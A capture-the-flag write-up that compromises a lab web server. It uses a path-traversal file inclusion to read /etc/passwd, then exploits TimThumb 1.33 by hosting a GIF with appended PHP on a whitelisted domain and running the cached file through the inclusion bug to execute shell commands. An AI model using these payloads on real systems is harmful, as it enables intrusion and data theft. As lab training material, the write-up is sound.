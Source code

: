 ### Solved by barrebas

We are again given an ip address. Upon visiting, it turns out to be some rudimentary page. I immediately spotted a LFI vulnerability, surfing to `http://10.13.37.13/?page=../../../../../../etc/passwd`:


```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
syslog:x:102:105::/home/syslog:/bin/false
ubuntu:x:1000:1000::/home/ubuntu:/bin/bash
```

Cool, but I couldn't get further with this. The images are apparently served by TimThumb, as I got this trying to do a LFI in `http://10.13.37.13/tt.php?w=240&src=../../../../../etc/passwd`:

```
file not found
Query String : w=240&src=../../../../../etc/passwd
TimThumb version : 1.33
```

[TimThumb v1.33](http://markmaunder.com/2011/08/02/technical-details-and-scripts-of-the-wordpress-timthumb-php-hack/) is vulnerable to RCE. The trick is to upload a malicious JPEG or GIF. This image contains php code, which is also uploaded into the thumbnail. This thumbnail is then stored into the `cache` directory. Indeed, externally uploaded images files are uploaded there, but only from domains that are in the whitelist. Luckily, `photobucket` is one of them. I made a black GIF image with a little bit of php appended:

```php
<?php
echo "Hi";
?>
```

After uploading it to photobucket, I browsed to `http://10.13.37.13/tt.php?w=2400&src=http://i36.photobucket.com/albums/e31/sbsebastian1/pwn_zpsa043d8a3.gif`. If you then take the md5 of the request, you can figure out where this image file is saved:

```bash
$ echo -ne 'http://i36.photobucket.com/albums/e31/sbsebastian1/pwn_zpsa043d8a3.gif' |md5sum
995e80b11b06e24b7d96ce109f4ef217  -
```

This particular file was stored at `./cache/external_995e80b11b06e24b7d96ce109f4ef217` so I hit the first LFI with that image: `http://10.13.37.13/?page=./cache/external_995e80b11b06e24b7d96ce109f4ef217`. Besides a lot of garbage, I also got 'Hi'. No php tags, just 'Hi'. This meant that it was indeed executing php code! I attempted to upload a reverse php shell and a simple `system($_GET['cmd']);` webshell, but both failed. I suspect `system()` is being blocked or filtered. Frustrated, I uploaded a GIF with the following php code:

```php
...gifdata...
<?php
echo "HI FROM VULNHUB-CTF";
echo `ls -alh`;
?>
```

This gave me a directory listing:

```
HI FROM VULNHUB-CTFtotal 116K

drwxr-xr-x 6 root root 4.0K Oct 12 12:36 .
drwxr-xr-x 3 root root 4.0K Oct 12 12:35 ..
-rw-r--r-- 1 root root 12 Oct 12 12:09 575b3f3f5318b2afbfe91ed860a4b10c.txt
drwxrwxrwx 2 root root 52K Oct 18 15:14 cache
-rw-r--r-- 1 root root 2.7K Oct 12 12:08 contact.html
drwxr-xr-x 2 root root 4.0K Aug 29 12:19 css
-rw-r--r-- 1 root root 2.9K Oct 12 12:04 home.html
drwxr-xr-x 2 root root 4.0K Aug 29 12:19 images
-rw-r--r-- 1 root root 180 Oct 12 12:03 index.php
drwxr-xr-x 2 root root 4.0K Aug 29 12:19 js
-rw-r--r-- 1 root root 21K Jul 31 2011 tt.php
```

This file called `575b3f3f5318b2afbfe91ed860a4b10c.txt` looked suspicious, so I uploaded a new GIF/php hybrid.

```php
...gifdata...
<?php
echo "HI FROM VULNHUB-CTF";
echo `cat 575b3f3f5318b2afbfe91ed860a4b10c.txt`;
?>
```

After hitting the LFI again, I was presented with the flag: `johnnybravo`!
